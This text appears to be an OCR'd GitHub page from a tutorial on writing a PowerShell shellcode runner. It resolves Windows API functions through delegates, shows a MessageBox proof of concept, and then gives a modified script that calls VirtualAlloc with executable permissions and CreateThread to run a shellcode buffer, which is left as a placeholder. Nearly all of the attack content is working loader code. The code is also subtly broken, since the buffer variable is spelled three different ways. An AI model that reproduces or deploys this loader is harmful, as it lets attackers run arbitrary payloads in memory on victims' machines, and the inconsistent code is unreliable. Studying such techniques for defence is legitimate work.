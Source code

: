 ```
$MessageBoxAddr = LookupFunc user32.dll MessageBox
$MessageBoxDelType = getDelegateType @([IntPtr], [String], [String], [int])
([IntPtr])$MessageBox = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($MessageBoxAddr, $MessageBoxDelType)
$MessageBox.Invoke([IntPtr]::Zero,"Hello World!","HELLO",0)
```

Modifying the Script to execute Shellcode
---

The POC can now be modified to call VirtualAlloc and CreateThread to run shellcode. For this to be done, the lookupFunc will be used to find the address for both our target functions in kernel32.dll. Finally, the arguments sent to getDelegateType should reflect the data types of our target functions. See below. 

---
CreateThread
```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```
VirutalAlloc
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```


Modified POC
---
```
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), 
(getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $shellc_buff = <SHELLCODE>

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $shelc_buff.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), 
(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
```
---
